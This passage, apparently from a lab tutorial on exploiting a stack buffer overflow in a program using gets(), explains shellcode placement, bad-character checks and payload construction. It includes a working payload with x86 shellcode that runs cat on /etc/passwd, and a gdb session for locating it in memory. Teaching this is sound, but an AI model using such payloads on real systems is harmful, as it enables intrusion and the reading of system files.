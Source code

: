 #### Limited length

Another issue might be that the initial input that will overflow the buffer might be too small to contain your shellcode. In this case, you can either optimize/change your shellcode, or you can try to place the shellcode somewhere else. For instance, if you can execute command on the Linux system, you could create a new [environment variable](https://codeburst.io/linux-environment-variables-53cea0245dc9) with the shellcode, or send it as parameters when running the vulnerable application. Both environment variables and application parameters are placed in the stack before the `main`'s stack frame.

### Build payload

You've identified the offset, you selected your shellcode, now, let's build the payload. The first step is to verify that the shellcode doesn't contain bad chars. Usually, shellcodes from [shell-storm.org](http://shell-storm.org/shellcode/) are optimised to avoid at least the `NULL` character. If the shellcode contains bad chars, either optimize it manually or find another shellcode that doesn't. Once done, calculate the size of the shellcode. If it is bigger than the offset to the return address, we won't be able to place the shellcode in front of the return address. If it is smaller, you can decide whether you want to place it before or after. In our case, the shellcode is 51 bytes, the offset is at 28 bytes, so we will place the shellcode after the return address.

```text
python -c "print 28*'A' + 'BBBB' + '\x31\xc0\x99\x52\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x89\xe3\x52\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x89\xe1\xb0\x0b\x52\x51\x53\x89\xe1\xcd\x80'"
```

We still need to find the address in memory where the shellcode will be located. For this, you can build your payload using an invalid memory address \(e.g. `0x42424242`\) then send it in `gdb`. In order to make it more easy to find the shellcode in the stack, we can replace it with a constant value, e.g. "C".

Remember, the payload is not directly sent in the program's arguments but to the `gets()` once the program is run. In order to send non-printable characters in gdb, we can use the `gdb` [process substitution](https://www.gnu.org/savannah-checkouts/gnu/bash/manual/bash.html#Process-Substitution) like this:

```text
$ gdb login -q
Reading symbols from login...(no debugging symbols found)...done.
(gdb) run < <(python -c "print 28*'A' + 'BBBB' + 51 * 'C'")
Starting program: /home/lab/login < <(python -c "print 28*'A' + 'BBBB' + 51 * 'C'")

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb) x/50x $esp
0xbfffef20:	0x43434343	0x43434343	0x43434343	0x43434343
0xbfffef30:	0x43434343	0x43434343	0x43434343	0x43434343
0xbfffef40:	0x43434343	0x43434343	0x43434343	0x43434343
0xbfffef50:	0x00434343	0xbfffefe4	0xbfffefec	0x00000000
0xbfffef60:	0x00000000	0x00000000	0xb7fbb000	0xb7fffc04
0xbfffef70:	0xb7fff000	0x00000000	0xb7fbb000	0xb7fbb000
0xbfffef80:	0x00000000	0x64b8d332	0x5f4d9d22	0x00000000
0xbfffef90:	0x00000000	0x00000000	0x00000001	0x08048370
0xbfffefa0:	0x00000000	0xb7ff0010	0xb7fea880	0xb7fff000
0xbfffefb0:	0x00000001	0x08048370	0x00000000	0x08048391
0xbfffefc0:	0x0804846b	0x00000001	0xbfffefe4	0x08048500
0xbfffefd0:	0x08048560	0xb7fea880	0xbfffefdc	0xb7fff918
0xbfffefe0:	0x00000001	0xbffff1e3
```

